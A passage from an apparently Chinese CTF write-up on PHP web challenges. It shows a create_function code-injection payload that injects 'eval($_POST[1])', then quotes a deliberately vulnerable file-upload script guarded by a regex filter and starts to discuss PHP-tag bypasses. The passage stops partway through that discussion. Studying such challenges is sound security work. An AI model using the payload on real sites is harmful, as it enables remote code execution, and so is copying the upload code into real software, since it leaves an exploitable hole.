 有点像之前刷到的create_function代码注入

正则匹配要求找到一个不影响函数正常使用的字符，这里用的是命名空间`\`

虽然这里提示create_function()被弃用了：`create_function() is deprecated`

但并不影响我们代码注入~

```
?action=\create_function&arg=echo 1;}eval($_POST[1]);
```

## 685-pcrewaf

```php
<?php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = './data/';
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    @mkdir($user_dir, 0755);
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
}
```

对上传的文件内容进行检测，符合正则即含有php代码则输出`错误的请求`，不符合则将其保存到`/data/随机数.php`；并在请求头返回路径：`header("Location: $path", true, 303);`



看正则：

```
/<\?.*[(`;?>].*/is

找的是<?开头，[(`;?>]结尾的字符串
```

一般想到用其他的 php tags：
`<?php`、`<%=`、`<%, %>`、`<script language="php">`、`<?=`
但在php7里这些都被移除了

![](https://s2.loli.net/2022/01/09/qNPUkRDGpyTA5fL.png)

